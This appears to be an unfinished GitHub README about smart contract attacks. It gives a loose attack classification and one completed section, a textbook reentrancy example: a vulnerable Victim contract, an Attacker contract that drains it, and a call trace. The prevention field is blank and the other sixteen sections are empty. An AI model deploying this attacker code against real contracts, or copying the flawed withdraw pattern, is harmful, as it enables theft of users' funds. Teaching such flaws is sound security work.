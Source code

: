 ## Overview : 👉👉👉
```bash
** While blockchain technology is gaining traction, there are potential attacks. For instance, there are currently
emerging DeFi attacks; exchange hacks, among others. However, all blockchain-related attacks are not smart contract attacks.
Some are defraud, malicious, and weak protocol attacks.

The Attack Classification ::📑📑📑
The attacks on smart contract security and blockchain, in general, can be classified into four basic categories.
These categories includes :-

1. malicious attacks: Crypto-jacking, slack, and forum attack

2. weak protocol :  the different protocols are prone to one attack or the other. Some of those attacks are 51% attacks, 
                  Sybill attacks, 34% attack, and denial of service.
                  An Eclipse attack can occur in the same vein to manipulate the peer-to-peer (P2P) network.
                  
3. defraud : Defraud can trick a merchant into releasing his goods before the confirmation of a transaction. 
             In a practical sense, a Bitcoin transaction is confirmed after six transactions.a consumer may try to persuade a merchant to 
             release goods without waiting for up to 6 transactions, so attack techniques like one confirmation or no confirmation 
             can be initiated to double spend.

4. application bugs :  It arises when smart contract developers fail to see code errors in the decentralized application. 
                        An attacker can drain all the money from the smart contract wallet through simple code bugs. Hence, the need 
                        for smart contract audits.
```
## 1. Reentrancy
```bash 
** info : 
While the EVM cannot run multiple contracts at the same time, a contract calling a different contract
pauses the calling contract's execution and memory state until the call returns, 
at which point execution proceeds normally. This pausing and re-starting can create a vulnerability known as "re-entrancy".

** example :
contract Victim {
    mapping (address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
** Imagine this malicious contract from attackers :
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
** Calling Attacker.beginAttack() will start a cycle that looks something like :

0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim
1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)



** Prevention : 

```
## 2. Arithmatic over/underflows
```bash 
** info : 
** example: 
** Prevention : 
```
## 3. Unexpected ethers 
```bash 
** info : 
** example: 
** Prevention : 
```
## 4. Delegatecall
```bash 
** info : 
** example: 
** Prevention : 
```
## 5. Default Visibilities
```bash 
** info : 
** example: 
** Prevention : 
```
## 6. Entropy Illusion 
```bash 
** info : 
** example: 
** Prevention : 
```
## 7. External Contract Referencing 
```bash 
** info : 
** example: 
** Prevention : 
```
## 8. Short Address/Parameters Attack 
```bash 
** info : 
** example: 
** Prevention : 
```
## 9. Unchecked Call Return Values 
```bash 
** info : 
** example: 
** Prevention : 
```
## 10. Race conditions/front running 
```bash
** info : 
** example: 
** Prevention : 
```
## 11. DDOS attack 
```bash 
** info : 
** example: 
** Prevention : 
```
## 12. Block-timestamp Manipulation 
```bash 
** info : 
** example: 
** Prevention : 
```
## 13. Constructors with Care 
```bash 
** info : 
** example: 
** Prevention : 
```
## 14. Uninitialized Storage Pointers 
```bash 
** info : 
** example: 
** Prevention : 
```
## 15. Floating Point and Precision 
```bash 
** info : 
** example: 
** Prevention : 
```
## 16. Tx.Origin Authentication 
```bash 
```
## 17. Contract Libraries  
```bash 
** info : 
** example: 
** Prevention : 
```




